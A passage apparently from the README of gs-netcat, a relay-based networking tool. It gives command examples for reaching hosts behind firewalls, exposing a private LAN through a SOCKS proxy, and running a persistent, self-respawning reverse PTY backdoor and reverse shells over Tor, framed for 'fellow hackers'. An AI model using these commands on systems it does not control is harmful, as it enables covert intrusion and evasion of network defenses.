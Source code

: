 Another example: Spawn a new docker environment deep inside a private network
```
# Start this on a host deep inside a private network
gs-netcat -il -e "docker run --rm -it kalilinux/kali-rolling"
```

Access the docker environment deep inside the private network from anywhere in the world:
```
gs-netcat -i
```

This is particularly useful to allow fellow hackers to access a private network without having to give them access to the system itself.

8. Quick Secure Chat with a friend
```
$ gs-full-pipe -s MySecret -A               # You
$ gs-full-pipe -s MySecret -A               # Them
```

9. Access entirety of *Workstation A's* private LAN (Sock4/4a/5 proxy)
```
$ gs-netcat -l -S          # Workstation A
$ gs-netcat -p 1080        # Workstation B

Access www.google.com via Workstation A's private LAN from your Workstation B:
$ curl --socks4a 127.1:1080 http://www.google.com 

Access fileserver.local:22 on Workstation A's private LAN from your Workstation B:
$ socat -  "SOCKS4a:127.1:fileserver.local:22"
```


10. Persistant, daemonized and auto-respawn/watchdog reverse PTY backdoor via TOR
```
$ gs-netcat -l -i -D    # some firewalled server
$ gs-netcat -i -T       # You, via TOR
```

11. SoCAT 2 
```
gs-netcat can be used in a socat address-chain using the EXEC target. Happy bouncing. Enjoy. :> 
```
---
**Pro-Tips:**

1. Force TOR or fail:
Add -T to relay your traffic through TOR or use these environment variable to force TOR or fail gracefully if TOR is not running:
```
$ export GSOCKET_SOCKS_IP=127.0.0.1
$ export GSOCKET_SOCKS_PORT=9050
```

2. A reverse shell

Gs-netcat supports multiple concurrent connections and spawns a real PTY/interactive-shell with ctrl-c and colors working (like OpenSSH does).
```
$ gs-netcat -l -i    # Host
$ gs-netcat -T -i    # Workstation (via Tor & Global Socket Relay)
```
